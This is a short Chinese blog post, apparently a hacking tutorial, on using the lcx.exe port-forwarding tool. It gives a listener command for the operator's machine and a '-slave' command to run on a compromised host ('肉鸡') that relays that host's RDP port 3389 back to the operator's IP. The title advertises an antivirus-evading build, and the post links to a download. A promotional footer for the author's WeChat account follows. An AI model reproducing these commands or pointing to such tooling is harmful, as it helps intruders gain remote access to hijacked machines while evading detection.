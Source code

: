 ```yaml
---
layout: post
category: binghe-code-hack
title: lcx.exe内网转发命令教程-LCX免杀下载
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: lcx.exe内网转发命令教程-LCX免杀下载
lock: need
---
```


# lcx.exe内网转发命令教程-LCX免杀下载

本机: lcx -listen 2222 3333

2222为转发端口，3333为本机任意未被占用的端口

肉鸡：lcx -slave 192.168.109.137 2222 127.0.0.1 3389

192.168.109.137 为本机IP,2222为转发端口，127.0.0.1为肉鸡内网IP，3389为远程终端端口

3389连接时格式 127.0.0.1:3333

下载地址：https://download.csdn.net/download/l1028386804/10816160


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
